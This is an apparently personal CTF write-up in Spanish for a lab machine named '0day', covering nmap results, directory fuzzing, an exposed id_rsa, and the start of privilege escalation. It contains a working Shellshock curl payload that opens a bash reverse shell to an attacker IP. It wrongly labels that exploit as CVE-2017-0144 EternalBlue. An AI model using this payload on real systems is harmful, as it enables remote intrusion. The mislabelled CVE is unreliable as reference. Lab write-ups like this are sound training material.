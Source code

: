 ### nma
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.39 seconds
```

### Ports

| PORT   | STATE | SERVICE | VERSION                                                         |
| ------ | ----- | ------- | --------------------------------------------------------------- |
| 22/tcp | open  | ssh     | OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.7 ((Ubuntu))                                   |

### Enumeración puerto 80

![[Pasted image 20240224203940.png]]

### Fuzzing con wffuzz

![[Pasted image 20240224204334.png]]
###### en el directorio backup encontramos un id_rsa
![[Pasted image 20240224204640.png]]

### Common Vulnerabilities and Exposures
###### CVE-2017-0144 - EternalBlue
```python
curl -A "() { :; }; echo Content-type: text/html; echo; /bin/bash -i >& /dev/tcp/10.8.74.185/7890 0>&1" "http://10.10.245.192/cgi-bin/test.cgi"
```

![[Pasted image 20240224212355.png]]

### Escalada de privilegios

###### sacamos el hash del id_rsa
![[Pasted image 20240224220415.png]]
parece que no funciona esta id_rsa

###### vamos a sobre escribir el path debido a que el actual parece estar dañado
```python
	export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
